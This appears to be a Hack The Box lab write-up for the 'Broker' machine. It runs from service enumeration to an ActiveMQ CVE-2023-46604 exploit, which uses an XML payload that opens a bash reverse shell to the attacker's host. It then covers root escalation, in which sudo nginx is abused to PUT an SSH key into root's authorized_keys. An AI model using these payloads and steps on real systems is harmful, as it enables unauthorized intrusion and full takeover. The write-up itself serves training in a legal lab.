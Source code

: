 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Broker](https://app.hackthebox.com/machines/Broker)

> [!tip]- Summary with Spoilers
> This box is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ). After the foothold, `nginx` can be abused via `sudo` to run a malicious web server that accepts `PUT` requests to the root filesystem, which can be used to place an SSH key for shell access as `root`.

## Services

### TCP

- Target: `broker.htb 10.10.11.243`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-broker.htb broker.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.4` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Error 401 Unauthorized
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

```

Guess credentials `admin:admin`:

![](_/htb-broker-20240927-1.png)

#### 1883/tcp-mqtt

```text
__mqtt-subscribe:
  Topics and their most recent payloads:
    ActiveMQ/Advisory/Consumer/Topic/#:
    ActiveMQ/Advisory/MasterBroker:
```

#### 5672/tcp-amqp

```text
__amqp-info:
ERROR: AQMP:handshake expected header (1) frame, but was 65
__fingerprint-strings:
  DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    AMQP
    AMQP
    amqp:decode-error
    7Connection from client using unsupported AMQP attempted
```

#### 8161/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

__http-server-header:
Jetty(9.4.39.v20210325)
```

#### 38231/tcp-tcpwrapped

#### 61613/tcp-stomp `Apache ActiveMQ`

```text
__fingerprint-strings:
  HELP4STOMP:
    ERROR
    content-type:text/plain
    message:Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
    org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
    org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
    org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
    org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
    java.lang.Thread.run(Thread.java:750)
```

#### 61614/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-favicon:
Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
__http-server-header:
Jetty(9.4.39.v20210325)
__http-methods:
  Supported Methods: GET OPTIONS
__http-trane-info:
Problem with XML parsing of /evox/about
__http-title:
Site doesn't have a title.
```

#### 61616/tcp-apachemq `ActiveMQ OpenWire transport`

```text
__fingerprint-strings:
  NULL:
    ActiveMQ
    TcpNoDelayEnabled
    SizePrefixDisabled
    CacheSize
    ProviderName
    ActiveMQ
    StackTraceEnabled
    PlatformDetails
    Java
    CacheEnabled
    TightEncodingEnabled
    MaxFrameSize
    MaxInactivityDuration
    MaxInactivityDurationInitalDelay
    ProviderVersion
    5.15.15
```

## Remote Code Execution

This machine is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ).

First I place the XML payload on my attack machine's web-server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.21/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then I can trigger the [exploit](https://github.com/evkl1d/CVE-2023-46604):

```console
$ python3 exploit.py -i broker.htb -u http://10.10.14.21/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.14.21/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31342e32312f706f632e786d6c
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.243] 54222
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

## Privilege Escalation

```console
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

I create a malicious config file that will accept PUT requests to the root filesystem:

```text
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

Than I add my SSH key:

```console
activemq#broker:/tmp$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBofhuG5ISaVIR3ywAJ7ry+rellmpJVJi2aF5lszUGwj e' > authorized_keys
activemq#broker:/tmp$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat authorized_keys)"
```

Then I can login via SSH as `root`:

```console
$ ssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

